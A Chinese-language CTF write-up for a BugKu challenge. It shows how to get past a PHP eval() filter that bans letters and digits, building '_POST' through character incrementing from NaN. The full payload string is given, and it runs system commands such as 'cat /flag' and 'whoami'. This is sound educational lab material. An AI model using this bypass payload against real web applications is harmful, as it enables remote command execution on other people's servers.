 ### 自增代替关键字绕过

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67b16dd4d0e0a243d4ffc11f.jpg)

打开网页拿到源代码，首先是 POST 参数 code 长度不能超过 105

其次是不包含字母、数字、特殊字符，最后通过 eval() 执行

![](https://pic1.imgdb.cn/item/67b16dddd0e0a243d4ffc121.jpg)

遍历正则发现 !$'()+,./;=[]_ 没有过滤

NaN 表示未定义或不可表示的值，可以用 (0/0) 表示

因为过滤了数字，所以这里用 _ 代替，得到 float(NAN)

![](https://pic1.imgdb.cn/item/67b16e2dd0e0a243d4ffc128.jpg)

我们需要字符串类型的 NaN，加上 ._ 拼接转为字符串

![](https://pic1.imgdb.cn/item/67b16ea6d0e0a243d4ffc133.jpg)

再通过数组下标提取出字符 N

![](https://pic1.imgdb.cn/item/67b16ebbd0e0a243d4ffc136.jpg)

拿到字符 N 后通过自增的形式拿到其他字符

![](https://pic1.imgdb.cn/item/67b16eded0e0a243d4ffc13e.jpg)

整体脚本如下

```php
<?php
$_=(_/_._)[_];
//var_dump($_);  //"N"
$_++;       //"O"
//var_dump($_++);
$__=$_.$_++;   //"PO"
$_++;         //"Q"
//var_dump($_++);
$_++;         //"R"
$_++;         //"S"
//var_dump($_++);
$__=$__.$_;  //"POS"
//var_dump($__);
$_++;        //"T"
//var_dump($_++);
$__=$__.$_;  //"POST"
//var_dump($__);
$_=_.$__;    //_POST
//var_dump($_);
$$_[_]($$_[__]);
//&_=system&__=cat /flag

//code=$_=(_/_._)[_];$_++;$__=$_.$_++;$_++;$_++;$_++;$__=$__.$_;$_++;$__=$__.$_;$_=_.$__;$$_[_]($$_[__]);&_=system&__=whoami
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b16f3cd0e0a243d4ffc148.jpg)
